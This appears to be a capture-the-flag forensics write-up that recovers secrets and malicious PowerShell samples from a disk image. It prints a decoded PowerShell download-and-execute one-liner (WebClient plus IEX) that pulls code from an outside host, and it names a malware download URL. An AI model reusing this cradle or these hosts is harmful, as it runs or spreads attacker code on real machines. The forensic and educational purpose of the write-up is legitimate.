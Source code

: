 We are given a .vmdk. I used 7-zip to retrieve the .ntfs files and then used testdisk for disk inspection.

* A message is received when the first task is completed. Please share it with us: (Points: 229)
We get the first file from C:\Users\sunflower\Documents\secret1.txt, the file content is E5EB9479E816D06CD53062B1EF017B185D9E47B087059484EEF344810E4B06A7. We remember that wecracktheworlds is an important key and because the length is 16 we try to decrypt using AES
```py
$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from Crypto.Cipher import AES
>>> aes = AES.new(b'wecracktheworlds', AES.MODE_ECB)
>>> aes.decrypt(bytes.fromhex('E5EB9479E816D06CD53062B1EF017B185D9E47B087059484EEF344810E4B06A7'))
b'yourfirstmissioniscompleted\x05\x05\x05\x05\x05'
```
The answer is **yourfirstmissioniscompleted**

* We know that the attacker attempted to download an infected image from one of his servers before launching the attack. Can you provide the file name? (Points: 50)

The second file can be found at C:\Users\sunflower\Desktop\secret2.ps1.txt, we need to base32 decode it and we get the following result
```powershell
 [System.Net.WebClient]$webClient = New-Object System.Net.WebClient;[System.IO.Stream]$stream = $webClient.OpenRead('https://5.top4top.net/p_1372hc5jv1.jpg');[System.IO.StreamReader]$sr = New-Object System.IO.StreamReader -argumentList $stream;[string]$results = $sr.ReadToEnd();IEX $results; defender
 ```
The answer is **p_1372hc5jv1.jpg**

* We know that the attacker used a password to unrar the malicious scripts downloaded from his server. Can you provide its value? (Points: 50)

The downloaded files can be found at C:\Users\sunflower\Downloads\Malicious-Powershell-Samples-master, the password can be found in README.txt

The answer is **infect**

* We suspect that the Sample 5 script contains another malicious download link. Can you determine the address? (Points: 86)

We need to look at the 'raw code' file that can be found in 'Sample 5', the powershell script has a first part where it decrypts the second part using the key b5ce91 and that has a DownloadFile that has a hex 0a411715031e4d53010c5e5e141b14005b420b41064a5643171a2d0a57584c501b00 that needs to be decrypted using the same key b5ce91

The answer is **http://fbigov.website/oru/Noni.exe**

<a name="research-it"></a>
# research-it - 10 solves

Description:
```
Recently I hired a team to keep my WordPress updated and secure. It got hacked, the team does not respond, the website seems permanently down and here it is the backup. Tell me more.

Flag format: CTF{sha256}
```
